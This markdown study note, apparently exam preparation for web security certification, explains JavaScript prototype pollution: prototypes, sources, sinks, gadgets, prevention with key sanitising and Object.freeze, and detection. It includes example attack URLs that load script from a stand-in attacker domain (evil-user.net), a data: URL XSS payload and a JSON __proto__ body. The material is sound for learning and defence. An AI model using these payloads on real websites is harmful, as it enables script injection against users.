 # BSCP
## Server-side Prototype Pollution
### Background
Every object in JavaScript is linked to another object of some kind, known as its prototype. By default, JavaScript automatically assigns new objects one of its built-in prototypes. For example, strings are automatically assigned the built-in `String.prototype`

Objects automatically inherit all of the properties of their assigned prototype, unless they already have their own property with the same key. This enables developers to create new objects that can reuse the properties and methods of existing objects.

The built-in prototypes provide useful properties and methods for working with basic data types. For example, the `String.prototype` object has a `toLowerCase()` method. As a result, all strings automatically have a ready-to-use method for converting them to lowercase. This saves developers having to manually add this behavior to each new string that they create.

Every object has a special property that you can use to access its prototype. Although this doesn't have a formally standardized name, `__proto__` is the de facto standard used by most browsers. This property serves as both a getter and setter for the object's prototype. This means you can use it to read the prototype and its properties, and even reassign them if necessary.

As with any property, you can access `__proto__` using either bracket or dot notation:

```
username.__proto__
username['__proto__']
```
You can even chain references to __proto__ to work your way up the prototype chain:
```
username.__proto__                        // String.prototype
username.__proto__.__proto__              // Object.prototype
username.__proto__.__proto__.__proto__    // null
```

Although it's generally considered bad practice, it is possible to modify JavaScript's built-in prototypes just like any other object. This means developers can customize or override the behavior of built-in methods, and even add new methods to perform useful operations.

For example, modern JavaScript provides the `trim()` method for strings, which enables you to easily remove any leading or trailing whitespace. Before this built-in method was introduced, developers sometimes added their own custom implementation of this behavior to the `String.prototype` object by doing something like this:
```
String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}
```
Thanks to the prototypal inheritance, all strings would then have access to this method:
```
let searchTerm = "  example ";
searchTerm.removeWhitespace();    // "example"
```
### Vulnerability

Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.

Successful exploitation of prototype pollution requires the following key components:

* A prototype pollution source - This is any input that enables you to poison prototype objects with arbitrary properties.
* A sink - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
* An exploitable gadget - This is any property that is passed into a sink without proper filtering or sanitization.

__Prototype pollution sources__

A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to prototype objects. The most common sources are as follows:

* The URL via either the query or fragment string (hash)
* JSON-based input
* Web messages

__Prototype pollution sinks__

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. 

__Prototype pollution gadgets__
A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

* Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
* Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. Robust websites may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

__Example of a prototype pollution gadget__

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:
```
let transport_url = config.transport_url || defaults.transport_url;
```
Now imagine the library code uses this `transport_url` to add a script reference to the page:
```
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:
```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
By providing a `data: URL`, an attacker could also directly embed an XSS payload within the query string as follows:
```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix.

### Exploitation

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

```
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```
### Prevention

__Sanitizing property keys__

One of the more obvious ways to prevent prototype pollution vulnerabilities is to sanitize property keys before merging them into existing objects. This way, you can prevent an attacker from injecting keys such as `__proto__`, which reference the object's prototype.

__Preventing changes to prototype objects__

A more robust approach to preventing prototype pollution vulnerabilities is to prevent prototype objects from being changed at all.

Invoking the `Object.freeze()` method on an object ensures that its properties and their values can no longer be modified, and no new properties can be added. As prototypes are just objects themselves, you can use this method to proactively cut off any potential sources:

```
Object.freeze(Object.prototype);
```

The `Object.seal()` method is similar, but still allows changes to the values of existing properties. This may be a good compromise if you're unable to use `Object.freeze()` for any reason.

### Detection
__Why is server-side prototype pollution more difficult to detect than client-side?__
* No source code access - There's no easy way to get an overview of which sinks are present or spot potential gadget properties.
* Lack of developer tools - This limitation obviously doesn't apply to white-box testing.
* Successfully polluting objects in a server-side environment using real properties often breaks application functionality
* Pollution persistence - Once you pollute a server-side prototype, this change persists for the entire lifetime of the Node process and you don't have any way of resetting it.

#### Non-destructive techniques

__Detecting server-side prototype pollution via polluted property reflection__

An easy trap for developers to fall into is forgetting or overlooking the fact that a JavaScript for...in loop iterates over all of an object's enumerable properties, including ones that it has inherited via the prototype chain.

__Note__: This doesn't include built-in properties set by JavaScript's native constructors as these are non-enumerable by default.
